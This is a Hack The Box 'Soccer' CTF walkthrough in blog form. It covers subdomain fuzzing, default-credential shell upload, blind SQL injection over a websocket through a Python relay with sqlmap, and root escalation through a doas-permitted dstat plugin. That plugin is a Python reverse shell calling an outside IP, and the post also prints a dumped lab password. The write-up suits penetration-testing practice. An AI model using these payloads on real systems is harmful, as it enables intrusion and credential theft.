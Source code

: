 ```yaml
---
layout: post
title: Soccer
published: true
category: CTF
system: linux
walkthrough-type: htb
source: https://app.hackthebox.com/machines/
Description: Enumerate a webserver to find a websocket vulnerability. Setup a http server to intercept requests. Privilege escalation with a misconfigured executable.
tags: web, wfuzz, websocket, http server, doas, dstat
---
```


Starting with nmap scans we have a few open ports 22 ssh and port 80 webserver that we need to add to /etc/hosts soccer.htb.

start enumerating the host scanning for subdomains with wfuzz and subdirectories with feroxbuster

- `wfuzz -c -w /usr/share/seclists/Discovers/DNS/bitquard-subdomains-top100000.txt - 'http://soccer.htb' -H "Host: FUZZ.soccer.htb" --hc 301,302`
- `feroxbuster -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php`

During scans we find a "<a href="https://tinyfilemanager.github.io/">Tiny File Manager</a>" 

Checking the github the default credentials do work, we can upload a shell here?

`/var/www/html/tiny/uploads` has permissions to upload and we get a callback as www-data after setting up a listener.

during a linpeas scan we end up finding `soc-player.soccer.htb` which is another site with a login...

Checking the source on the /check page wqe find a websocket. I've literally never had to deal with or know how to deal with this but I found some help? https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh

```
curl -i -s -k -X $'GET' \
    -H $'Host: soc-player.soccer.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://soc-player.soccer.htb/check' -H $'Upgrade-Insecure-Requests: 1' -H $'If-None-Match: W/\"12e9-jepY6GiJmK+3NHavK46gs9vINZM\"' \
    -b $'connect.sid=s%3AKI5S00CPO6HI-LF23kQn6GqHwWQxa2Nh.ljAb1hQUlzyU6qz4iPBlLwBKc5n4UNxapAIi%2Fhb0%2Bik' \
    $'http://soc-player.soccer.htb/check'
```

Inspecting the check page we find a websocket

```
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
```

read more about exploiting this <a href="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html">here</a>.

We start off by hosting a http.server that will connect to the websocket so we can send through requests to dump the database.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

- run sqlmap and dump the database `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

- dump the soccer_db `sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --dump`

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

- login via ssh

- `find / -type f -perm -u=s 2>/dev/null`

We see doas here. check the config for doas

- `find / -name *doas* 2>/dev/null`

`permit nopass player as root cmd /usr/bin/dstat`

this mean we can use doas to execute dstat as root 

dstat is a tool for generating system resouce statustics it allows users to create custom plugins and execute them by adding the `--myplugin` options.

find the stat directory

- `find / -type d -name dstat 2>/dev/null`

create a plugin in the directory

```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

dstat will recognize pluds under this directory. we can check if the plugin has been added by executing `dstat --list | grep oskar`

after setting up a listener we recieve a root shell.


    

